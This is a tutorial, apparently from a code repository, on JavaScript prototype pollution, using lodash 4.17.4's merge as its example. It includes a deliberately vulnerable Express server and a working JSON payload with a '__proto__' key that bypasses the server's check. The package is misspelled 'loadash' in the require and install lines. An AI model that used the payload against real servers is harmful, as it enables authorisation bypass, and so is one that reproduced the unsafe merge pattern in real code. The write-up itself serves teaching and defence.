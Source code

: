 # A brief overview on prototype pollution

## What is a prototype
Javascript is a prototypal language this means that all objects within it have a prototype that is shared between objects of the same type. The prototype contains methods and properties that are useful for all objects of that type. This prototype is accesible from objects via the `__proto__` property.

For example:
`Number.prototype` contains the method toFixed which converts the number to a fixed string. All numbers have this method
```javascript
(1).toFixed === (-10.5).toFixed // true
```

## Modifying prototypes
Because prototypes are shared if you modify the prototype of an object all objects of the same type will have the new prototype. 

For example if I wanted to add `isNumber = true` to all numbers I could use `Number.prototype` or the `__proto__` of any number
```javascript
Number.prototype.isNumber = true;
(1).isNumber // true
Infinity.isNumber // true
```
```javascript
(10).__proto__.isNumber = true;
(10).isNumber // true
(-0xffff).isNumber // true
"10".isNumber // undefined
```
Notice how as `"10"` is a different type (`String`) it has a different prototype so isNumber is undefined.

### Side note: root prototype
There is however a root prototype that is shared by most objects.
```javascript
// Note there is varying depths of prototypes to reach protypes
// This depends on how many classes a class extends
(1).__proto__.__proto__.foo = 'bar';
(5).foo; // 'bar'
({}).foo; // 'bar'
"example".foo; // 'bar'
```

## Prototype pollution
Prototype pollution is when a user's input is able to modify a prototype hence allowing them control other other parts of the code.

### JSON.parse
Javascript's default JSON parse is not vulnerable to prototype pollution, if the user input contains a `__proto__` property the reference to the actual prototype is replaced with a new object defined by the JSON. This is due to the way javascript works, if you completly overwrite the `__proto__` property you are replacing the reference to the prototype of the object a new object instead of inserting a property to the global type prototype.
```javascript
let obj = JSON.parse('{"__proto__":{"foo":"bar"}}');
console.log(obj); // {'__proto__':{'foo:'bar'}};
console.log(obj.foo); // undefined
console.log(obj.__proto__.foo); // 'bar'
console.log(({}).foo); // undefined
```
is the same as
```javascript
let obj = {};
obj.__proto__ = {'foo':'bar'};
console.log(obj); // {'__proto__':{'foo:'bar'}};
console.log(obj.foo); // undefined
console.log(obj.__proto__.foo); // 'bar'
console.log(({}).foo); // undefined
```

### Actual vulnerabilites
Because we cannot overwrite the `__proto__` with a new object it is normally code that copies from user input that is vulnerable to prototype pollution. There are several libraries that have been vulnerable, I am going to use lodash version 4.17.4 as an example.

Lodash has a [merge](https://lodash.com/docs/4.17.4#merge) function that copies all the properties from object to another object **recursively**.

The problem with the vulnerable version is when it _merges_ the objects it will insert objects into the recieving objects prototype if the other object has a `__proto__` property.

_The following code requires lodash to be installed (I recommend using nodejs, `npm i loadash@4.17.4`)_
```javascript
const _ = require('loadash'); // import lodash

// Create a object with __proto__ property that isn't actually a prototype
let obj = {};
obj.__proto__ = {'foo':'bar'};

let dest = {'bar':'foo'};
// Perform the merge
_.merge(dest, obj);

// When it performs the copy it finds the __proto__ property in obj (and is an object)
// it checks to see if __proto__ exists in dest
// as __proto__ refers to the global prototype object it copies the properties from
// obj.__proto__ to dest.__proto__ (into the global prototype)
// hence now Object.prototype.foo = 'bar'

// Now a pollution has been performed we can see the effects
console.log(dest.foo); // 'bar'
let newObj = {'what': 'a new object'};
console.log(newObj.foo); // 'bar'

// This is especially dangerous if the attacker can add a function, 
// or a property that gets evaluated unsafely later
```

#### Example
Example of passing a check on a vulnerable express web server
```javascript
const express = require('express');
const _ = require('loadash');

const app = express();

app.use(express.json()); // Automatically JSON.parse uploaded data
app.post('/api/foo', (req, res) => {
  let data = _.merge({}, req.body); // Merge object with user content
  let checks = {};
  if (data.type === 'apple') { // If data.type is apple
    checks.isApple = true; // Set check to passed
  }
  // If check passed return a 200, else return a 400
  if (checks.isApple === true) return res.sendStatus(200);
  res.sendStatus(400);
});

app.listen(8000);
```
I am going to use [fetch](https://developer.mozilla.org/en-US/docs/Web/API/WindowOrWorkerGlobalScope/fetch) to send requests from the server but anything that can send HTTP post requests would work.

Normal user:
```javascript
const res = await fetch('http://127.0.0.1:8000/api/foo', {
  method:'POST',
  headers:{'Content-Type':'application/json'},
  body: JSON.stringify({type: 'apple'}),
});
console.log(res.status); // 200
```
```javascript
const res = await fetch('http://127.0.0.1:8000/api/foo', {
  method:'POST',
  headers:{'Content-Type':'application/json'},
  body: JSON.stringify({type: 'orange'}),
});
console.log(res.status); // 400
```

Using prototype pollution:
```javascript
// Notes:
// I don't use JSON.stringify here as it would ignore any __proto__ properties
// Make sure what you send (body) is actually valid JSON otherwise server code won't be able to parse it
// Make sure you set the Header 'Content-Type' to 'application/json' otherwise the express json middleware won't parse the JSON
const res = await fetch('http://127.0.0.1:8000/api/foo', {
  method:'POST',
  headers:{'Content-Type':'application/json'},
  body: '{"type":"orange","__proto__":{"isApple":true}}',
});
console.log(res.status); // 200
```
